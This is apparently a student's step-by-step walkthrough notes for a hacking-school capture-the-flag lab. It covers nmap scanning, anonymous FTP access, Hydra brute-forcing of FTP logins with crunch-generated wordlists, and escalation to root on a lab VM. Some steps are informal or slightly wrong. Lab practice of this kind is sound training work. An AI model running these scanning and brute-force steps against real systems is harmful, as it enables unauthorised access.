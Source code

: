 2025-04-02 00:29

Status:

Tags:

# CTF by hacker school

# step1.  do nmap scan 

sudo nmap -Pn -n -p- 10.10.10.7 

Nmap scan report for 10.10.10.7
Host is up (0.00017s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
1515/tcp open  ifor-protocol
3535/tcp open  ms-la
MAC Address: 08:00:27:09:75:7F (Oracle VirtualBox virtual NIC)

check for anonymous login 

nmap --script ftp-vsftpd-backdoor.nse -p21 10.10.10.7 

got to see that port 21 is open 

ftp 10.10.10.7

# step2. 
ftp 10.10.10.7
username: anonymous 
password: 
# step 3: 
check whether you are able to upload file or download file 

Only download file is enable and upload is disable
 
 and read that file 
 note.txt 
(hint) Try to login as Jack

# step4:  
run tcp with port 1515

check for any hit or check for any odd thing
like Cyberspace

 then run hydra  
 and create word list containing 
 nano hbox 
	 Jack
	Cyberspace
	HackerSchool
	hackerschool
	jack
	Cyberspace 

and then run 
 hydra -L hbox -P hbox   ftp://10.10.10.7
[21][ftp] host: 10.10.10.7   login: jack   password: Cyberspace


# step: 5
login: jack 
password: Cyberspace 

then read / cat note 
next step login as goblin 
and create pssword list and password contain 4 4 with {a,c1,5}, using crunch 

crunch 4 4 -p ac15 > gob 
			15ac
			15ca
			1a5c
			1ac5
			1c5a
			1ca5
			51ac
			51ca
			5a1c
			5ac1
			5c1a
			5ca1
			a15c
			a1c5
			a51c
			a5c1
			ac15
			ac51
			c15a
			c1a5
			c51a
			c5a1
			ca15
			ca51

then run hydra 
hydra -l goblin  -P gob   ftp://10.10.10.7
	[21][ftp] host: 10.10.10.7   login: goblin   password: ca51
 
# step: 6

login: goblin  
password: ca51

then cat note 
(hint) to be find final.sh 
next step root 

# step: 7
to be root user use 
	sudo  -i 

step: final 
to locate the "final.sh " use find command 
find / -name "final.sh"  
result : /usr/share/hs/final.sh
cd /usr/share/hs/final.sh
cat final.sh

solution by sir 
missed things by me 
use vsftp 2.0.8 ftp hack and use CEV and then perform the enumeration 
create word list using cewl and use https 10.10.10.7(missed)
sudo root expolit code -final.sh 

2>/dev/null (trash )
run final.sh 
create file in 
cd temp





### Referees
